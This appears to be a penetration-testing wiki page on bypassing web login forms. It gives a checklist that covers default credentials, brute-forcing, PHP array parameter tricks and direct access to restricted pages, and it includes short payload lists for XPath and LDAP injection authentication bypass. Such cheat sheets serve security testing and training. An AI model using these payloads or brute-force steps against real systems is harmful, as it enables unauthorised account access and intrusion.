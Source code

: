 # Login Bypass

## **Bypass regular login**

If you find a login page, here you can find some techniques to try to bypass it:

* Check for **comments** inside the page \(scroll down and to the right?\)
* Check if you can **directly access the restricted pages**
* Check to **not send the parameters** \(do not send any or only 1\)
* Check the **PHP comparisons error:** _user\[\]=a&pwd=b_ , _user=a&pwd\[\]=b_ , _user\[\]=a&pwd\[\]=b_
* Check credentials:
  * [**Default credentials**](../../brute-force.md#default-credentials) ****of the technology/platform used
  * **Common combinations** \(root, admin, password, name of the tech, default user with one of these passwords\).
  * Create a dictionary using **Cewl**, **add** the **default** username and password \(if there is\) and try to brute-force it using all the words as **usernames and password**
  * **Brute-force** using a bigger **dictionary \(**[**Brute force**](../../brute-force.md#http-post-form)**\)**

### SQL Injection authentication bypass

[Here you can find several tricks to bypass the login via **SQL injections**](../sql-injection/#authentication-bypass).

In the following page you can find a **custom list to try to bypass login** via SQL Injections:

{% page-ref page="sql-login-bypass.md" %}

### No SQL Injection authentication bypass

[Here you can find several tricks to bypass the login via **No SQL Injections.**](../nosql-injection.md#basic-authentication-bypass)\*\*\*\*

As the NoSQL Injections requires to change the parameters value, you will need to test them manually.

### XPath Injection authentication bypass

[Here you can find several tricks to bypass the login via **XPath Injection.**](../xpath-injection.md#authentication-bypass)\*\*\*\*

```text
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```

### LDAP Injection authentication bypass

[Here you can find several tricks to bypass the login via **LDAP Injection.**](../ldap-injection.md#login-bypass)\*\*\*\*

```text
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```



